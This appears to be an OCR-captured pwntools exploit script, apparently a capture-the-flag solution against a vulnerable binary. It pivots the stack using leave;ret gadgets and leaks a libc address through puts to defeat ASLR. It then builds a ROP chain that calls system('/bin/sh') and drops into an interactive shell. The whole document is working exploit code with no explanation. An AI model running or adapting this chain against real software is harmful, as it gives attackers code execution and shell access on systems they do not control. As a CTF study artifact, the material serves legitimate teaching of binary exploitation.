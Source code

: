 ```python
leave_ret = 0x00000000004011b5
ret       = 0x000000000040101a

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = flat({
    0xE00:[
        p64(0xdeadbeef),        # padding
        p64(pop_rdi),
        p64(puts_got),
        p64(puts_plt),
        p64(main_addr)
    ]
})

p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x20: [
        p64(0x404E60),
        p64(leave_ret),
    ]
})

p.sendafter(b"Read 2\n", payload)

puts_addr = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

pop_rsi     = libc_base + 0x000000000002601f
pop_rdx_r12 = libc_base + 0x0000000000119431
binsh_addr  = libc_base + next(libc.search(b"/bin/sh"))
system_addr = libc_base + libc.sym["system"]

payload = flat({
    0x600: [
        p64(0xdeadbeef),        # padding
        p64(pop_rdi),
        p64(binsh_addr),
        p64(ret),
        p64(system_addr),
    ]
})

gdb.attach(p)
p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x20: [
        p64(0x404660),
        p64(leave_ret),
    ]
})

p.sendafter(b"Read 2\n", payload)


p.interactive()
```